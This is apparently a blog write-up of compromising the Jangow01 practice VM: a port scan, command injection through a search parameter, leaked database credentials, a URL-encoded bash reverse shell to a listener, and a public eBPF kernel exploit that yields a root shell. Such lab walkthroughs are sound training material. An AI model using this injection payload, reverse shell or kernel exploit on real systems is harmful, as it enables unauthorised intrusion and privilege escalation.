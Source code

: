 ```yaml
---
layout: post
title: Jangow01.
date: 03-05-2025
categories: [Basics]
tags: [red]
image: "https://media.istockphoto.com/id/1370317689/photo/black-panther-with-a-black-background.jpg?s=612x612&w=0&k=20&c=A5ljepNP_Sw8PTQQXBkiCRzPKESGu04cr9PXvAYxiVs="
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }

## Scanning
​
```
Nmap 7.95 scan initiated Sat May  3 08:40:46 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN scan.txt 192.168.56.118
Nmap scan report for 192.168.56.118
Host is up (0.00079s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
MAC Address: 08:00:27:83:96:31 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sat May  3 08:41:03 2025 -- 1 IP address (1 host up) scanned in 16.55 seconds
```
> Here we can find the vulnurability i can inject commands...
{: .prompt-tip }                                                              
```
http://192.168.56.118/site/busque.php?buscar=
```
![Screenshot From 2025-05-03 15-11-55](https://github.com/user-attachments/assets/94e4629e-11ea-4a8a-8bc2-389f1850fb91)

## Enumarationg
Try testing the requests and responces of the website.
```
Reverse shell
Request
GET /site/busque.php?buscar=ls HTTP/1.1
Host: 192.168.56.118
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Responce
HTTP/1.1 200 OK
Date: Sat, 03 May 2025 09:05:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 47
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

assets
busque.php
css
index.html
js
wordpress
```

​
## Initial access

![Screenshot From 2025-05-03 11-14-16](https://github.com/user-attachments/assets/8a2fabb6-6b28-4043-a06b-e3877a7e7556)


Enumatration
```
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```
> Using the next way to access.
{: .prompt-danger }
​
```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```



​
## Gaining access

Trying using FTP
```
Try FTP initial access
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/redteam/vulnlab/jagwa]
└─$ nc 192.168.56.118 21                      
220 (vsFTPd 3.0.3)
USER jangow01
331 Please specify the password.
PASS abygurl69
230 Login successful.
ls
500 Unknown command.


FAILED
```

## Payload man

![Screenshot From 2025-05-03 11-13-48](https://github.com/user-attachments/assets/200b4bde-1925-498a-815d-bbe2b4c9c309)


> lucky lets try
{: .prompt-tip }

/bin/bash -c "bash -i >& /dev/tcp/192.168.56.1/443 0>&1"
```
<http://192.168.56.118/site/busque.php?buscar=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.1%2F443%200%3E%261%22%0A>
```

## Using netcat
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/redteam/vulnlab/jagwa]
└─$ nc -lnvp 443        
listening on [any] 443 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.118] 33832
bash: cannot set terminal process group (2768): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jangow01:/var/www/html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<html/site$ python3 -c 'import pty;pty.spawn("/bin/bash")'                   
www-data@jangow01:/var/www/html/site$ export TERM=xterm
export TERM=xterm
www-data@jangow01:/var/www/html/site$ su jangow01
su jangow01
Password: abygurl69
jangow01@jangow01:/var/www/html/site$ 

```
​
## Privillage escalation
leanpeas.sh and run it give me the 

> WARNING! WARNING! WARNING! KERNEL EXPLOIT IT MAY BREAK THE SYSTEM.
{: .prompt-danger }

```
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```
​
## Kernel exploit

> LOVELY TIME
{: .prompt-danger }

https://www.exploit-db.com/exploits/45010
​
```
jangow01@jangow01:~$ ./kiddle 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003da09300
[*] Leaking sock struct from ffff88000866d2c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880033e65a80
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880033e65a80
[*] credentials patched, launching shell...
# 
```
​
![Screenshot From 2025-05-03 14-24-48](https://github.com/user-attachments/assets/9bec0bf3-b671-4ea4-96de-bfbb2034ff6d)

> red teaming...
{: .prompt-danger }
